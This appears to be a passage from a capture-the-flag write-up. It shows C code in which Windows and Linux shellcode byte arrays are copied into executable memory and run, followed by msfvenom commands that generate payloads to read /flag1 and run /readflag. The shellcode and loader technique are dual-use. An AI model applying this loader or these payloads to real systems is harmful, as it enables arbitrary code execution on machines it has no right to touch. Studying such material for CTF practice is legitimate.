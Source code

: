 ```c
  0xd2, 0x47, 0x8a, 0x07, 0x84, 0xc0, 0x75, 0xed, 0x0f, 0xb7, 0xfa, 0x8b,
  0x55, 0xf8, 0x33, 0xc0, 0x39, 0x7c, 0x85, 0xc4, 0x75, 0x04, 0x89, 0x54,
  0x85, 0xc4, 0x40, 0x83, 0xf8, 0x03, 0x7c, 0xf0, 0x8b, 0x55, 0xf4, 0x83,
  0xc6, 0x02, 0xff, 0x4d, 0xfc, 0x75, 0xb1, 0x5f, 0x5e, 0x8d, 0x45, 0xe8,
  0x33, 0xdb, 0x50, 0xc7, 0x45, 0xe8, 0x55, 0x73, 0x65, 0x72, 0xc7, 0x45,
  0xec, 0x33, 0x32, 0x2e, 0x64, 0x66, 0xc7, 0x45, 0xf0, 0x6c, 0x6c, 0x88,
  0x5d, 0xf2, 0xff, 0x55, 0xc4, 0x8d, 0x4d, 0xd0, 0x51, 0x50, 0xc7, 0x45,
  0xd0, 0x4d, 0x65, 0x73, 0x73, 0xc7, 0x45, 0xd4, 0x61, 0x67, 0x65, 0x42,
  0xc7, 0x45, 0xd8, 0x6f, 0x78, 0x41, 0x00, 0xff, 0x55, 0xc8, 0x53, 0x8d,
  0x4d, 0xdc, 0x51, 0x8d, 0x4d, 0x8c, 0x51, 0x53, 0xc7, 0x45, 0x8c, 0x54,
  0x68, 0x69, 0x73, 0xc7, 0x45, 0x90, 0x20, 0x4d, 0x65, 0x73, 0xc7, 0x45,
  0x94, 0x73, 0x61, 0x67, 0x65, 0xc7, 0x45, 0x98, 0x42, 0x6f, 0x78, 0x20,
  0xc7, 0x45, 0x9c, 0x77, 0x61, 0x73, 0x20, 0xc7, 0x45, 0xa0, 0x63, 0x72,
  0x65, 0x61, 0xc7, 0x45, 0xa4, 0x74, 0x65, 0x64, 0x20, 0xc7, 0x45, 0xa8,
  0x75, 0x73, 0x69, 0x6e, 0xc7, 0x45, 0xac, 0x67, 0x20, 0x61, 0x20, 0xc7,
  0x45, 0xb0, 0x77, 0x69, 0x6e, 0x64, 0xc7, 0x45, 0xb4, 0x6f, 0x77, 0x73,
  0x20, 0xc7, 0x45, 0xb8, 0x73, 0x68, 0x65, 0x6c, 0xc7, 0x45, 0xbc, 0x6c,
  0x63, 0x6f, 0x64, 0x66, 0xc7, 0x45, 0xc0, 0x65, 0x2e, 0x88, 0x5d, 0xc2,
  0xc7, 0x45, 0xdc, 0x4d, 0x65, 0x73, 0x73, 0xc7, 0x45, 0xe0, 0x61, 0x67,
  0x65, 0x42, 0x66, 0xc7, 0x45, 0xe4, 0x6f, 0x78, 0x88, 0x5d, 0xe6, 0xff,
  0xd0, 0x5b, 0xc9, 0xc3
};

unsigned char linux32_printline[] = {
  0x31, 0xc0, 0x31, 0xdb, 0x31, 0xd2, 0xb0, 0x04, 0xb3, 0x02, 0xeb, 0x06,
  0x59, 0xb2, 0x2f, 0xcd, 0x80, 0xc3, 0xe8, 0xf5, 0xff, 0xff, 0xff, 0x54,
  0x68, 0x69, 0x73, 0x20, 0x6c, 0x69, 0x6e, 0x65, 0x20, 0x77, 0x61, 0x73,
  0x20, 0x70, 0x72, 0x69, 0x6e, 0x74, 0x65, 0x64, 0x20, 0x75, 0x73, 0x69,
  0x6e, 0x67, 0x20, 0x61, 0x73, 0x20, 0x6c, 0x69, 0x6e, 0x75, 0x78, 0x20,
  0x73, 0x68, 0x65, 0x6c, 0x6c, 0x63, 0x6f, 0x64, 0x65, 0x0a
};

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    LPVOID exec_buffer = VirtualAlloc(NULL,sizeof(win32_messagebox),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    void (*pcode)() = (void(*)())exec_buffer;

    memcpy(exec_buffer,linux32_printline,sizeof(linux32_printline));
    pcode();

    memcpy(exec_buffer,win32_messagebox,sizeof(win32_messagebox));
    pcode();

    return 0;
}
```

于是直接用 `msfvenom` 生成两个：

```
# /opt/metasploit-framework/bin/msfconsole

msfvenom -p linux/x86/read_file -f c PATH=/flag1
msfvenom -p linux/x64/exec -f c CMD=/readflag
```

